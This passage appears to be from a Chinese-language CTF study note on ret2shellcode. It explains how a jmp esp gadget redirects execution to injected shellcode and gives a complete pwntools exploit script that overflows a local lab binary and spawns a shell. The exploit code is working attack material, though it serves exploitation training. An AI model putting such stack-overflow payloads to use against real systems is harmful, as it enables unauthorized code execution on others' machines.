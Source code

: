 当执行到ret时, 就会跳转到jmp esp指令处去执行, 同时当前esp会指向shellcode处, 这样执行jmp后就会控制EIP到shellcode执行

#### Exploit

```python
from pwn import*
context(os="linux", arch="i386")
o = process('./ret2shellcode')


jmp_esp = 0x804843C
shellc = asm(shellcraft.sh())
payload = 'a'*28 + p32(jmp_esp) + shellc
o.sendline(payload)
o.interactive()
```

将断点设置在run函数的ret处

![image-20220317191448307](自救指南.assets/image-20220317191448307.png)

可以看到jmp esp跳转的地方就是shellcode注入的地方, 执行完shellcode即可拿到shell

![image-20220317191459354](自救指南.assets/image-20220317191459354.png)
